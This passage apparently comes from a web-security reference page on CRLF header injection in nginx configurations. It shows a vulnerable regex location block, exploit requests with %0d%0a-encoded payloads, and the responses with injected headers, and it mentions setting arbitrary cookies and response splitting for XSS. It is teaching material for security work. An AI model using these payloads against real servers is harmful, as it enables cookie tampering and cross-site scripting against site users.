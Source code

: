 To exploit this, you can inject the encoded characters into the matching group which will be decoded in the backend request:

{% code title="Exploit" %}
```http
GET /some/x%0d%0aHeader:%20Injection/path HTTP/1.1
```
{% endcode %}

{% code title="Response" %}
```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
...
X-Response-Header: x
Header: Injected!

OK
```
{% endcode %}

#### Response Headers

When raw characters end up in an `add_header`, you can add more headers below that header to the response. See the example above.

Another interesting case is when `return` returns a redirect using the `Location:` header, because it is also vulnerable to CRLF-Injection:

{% code title="Vulnerable Example" %}
```nginx
location ~ /redirect/([^.]+)\.html {
    return 301 /html/$1.html;
}
```
{% endcode %}

By fitting the regex format, the `/html/$1.html` path becomes a location header with CRLF:

{% code title="Exploit" %}
```http
GET /redirect/x%0d%0aHeader:%20Injection.html HTTP/1.1
```
{% endcode %}

{% code title="Response" %}
```http
HTTP/1.1 301 Moved Permanently
...
Location: http://localhost/html/x
Header: Injection.html
```
{% endcode %}

Check out [crlf-header-injection.md](../client-side/crlf-header-injection.md "mention") to learn how to exploit this for XSS using response splitting.&#x20;

With the `Location:` header case, this becomes more tricky because you cannot simply overwrite the response and expect the browser to render it. Often there is a prefix in the location header before your input, and then there is no way to get XSS.\
As an alternative, you can still set the `Set-Cookie:` header which is allowed during redirects. This allows you to set arbitrary cookies, becoming a [#cookie-tossing](../client-side/cross-site-request-forgery-csrf.md#cookie-tossing "mention") gadget.


[^1]: This group may contain newlines, saved to `$1`